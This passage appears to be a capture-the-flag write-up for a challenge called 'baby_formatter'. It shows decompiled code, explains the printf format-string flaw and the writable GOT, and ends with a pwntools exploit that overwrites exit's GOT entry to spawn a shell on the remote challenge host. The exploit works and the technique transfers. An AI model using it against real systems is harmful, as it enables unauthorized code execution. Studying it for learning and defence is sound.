 Then let's dive into the disassembly of the binary.

#### main

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char buf[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("give me your input and I will give it back to you :)");
  read(0, buf, 0x64uLL);
  printf(buf);
  puts("bye!");
  exit(1);
}
```

The `main` function takes our input with read(0, buf, 0x64uLL) and then prints our input again with printf without a format string specifier.

#### win

```c
int win()
{
  puts("huh? how did you find me???");
  printf("oh well here is your shell");
  return execve("/bin/sh", 0LL, 0LL);
}
```

The `win` function uses execve("/bin/sh", 0LL, 0LL) to achieve arbitrary code execution. Additionally, since the binary is Partial Relro, the Global Offset Table (GOT) is writable. Therefore, we can overwrite the GOT entry of the exit function to point to the win function, allowing us to achieve arbitrary code execution.

#### POC

```python
#!/usr/bin/python
from pwn import *
exe = './baby_formatter'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc 52.59.124.14 5030".split(" ")[1:3]
io = remote(host, port)
p = '%{}c.'.format(elf.sym.win).encode()
p += b'%11$ln'
p = p.ljust(24, b'\0')
p += p64(elf.got.exit)
io.sendline(p)
io.interactive()
```
